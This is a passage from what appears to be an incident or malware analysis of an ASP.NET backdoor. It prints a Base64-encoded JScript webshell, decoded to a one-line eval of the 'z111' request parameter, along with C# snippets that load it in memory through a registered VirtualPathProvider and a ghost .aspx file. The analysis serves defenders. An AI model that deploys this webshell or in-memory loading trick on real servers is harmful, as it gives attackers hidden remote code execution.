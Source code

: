 Without going through all the source code, let's break this down:

```cs
//[...REDACTED...]
string text = "PCVAIFBhZ2UgTGFuZ3VhZ2U9IkpzY3JpcHQiJT48JVJlc3BvbnNlLldyaXRlKGV2YWwoUmVxdWVzdC5JdGVtWyJ6MTExIl0sInVuc2FmZSIpKTslPg==";
string @string = Encoding.UTF8.GetString(Convert.FromBase64String(text));
//[...REDACTED...]
```

We can see some interesting Base64 encoded text that when decoded is set to the variable `@string`. We can see this has the below contents:

```js
<%@ Page Language="Jscript"%><%Response.Write(eval(Request.Item["z111"],"unsafe"));%>
```

The above is a extremely minimal webshell, it takes a HTTP parameter `z111`, then passes it to the `eval()` function - allowing direct JScript execution on the web server. 

We can see in order to execute the JScript/.aspx, the code creates a virtual path `/<current-dir>/fakepath31337`:

```cs
string text5 = "/<current-directory>/fakepath31337/";
```

With this `text5` variable initialized, the function `HostingEnvironment.RegisterVirtualPathProvider()` is called to provide the file content and file path. This won't be written to disk, it'll be ran dynamically in memory. 

```cs
var samplePathProvider = new SamplePathProvider(text5, fileContent);
//[...REDACTED..]
HostingEnvironment.RegisterVirtualPathProvider(samplePathProvider);
```

Finally, with some other stuff going on under the hood, the virtual .aspx file in memory is ran using:

```cs
HttpContext.Current.Server.Execute(
    "/<current_directory>/ghostfile" + new Random().Next(1000) + ".aspx"
);
```

ASP.NET asks the registered VPP for that path → GetFile() returns the in-memory webshell → ASP.NET compiles/runs it → the webshell’s eval(Request.Item["z111"], "unsafe") fires.

We can find referencing to this [Chinese security research blog](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8%E8%99%9A%E6%8B%9F%E6%96%87%E4%BB%B6%E9%9A%90%E8%97%8FASP.NET-Webshell), which details "Hiding ASP.NET Webshell Using Virtual Files". Specifically, we can see the [GhostWebShell](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs) is being leveraged.

## 3.asmx

Additionally to the above backdoor, the adversary leveraged additional staged, memory-native .NET webshells. 
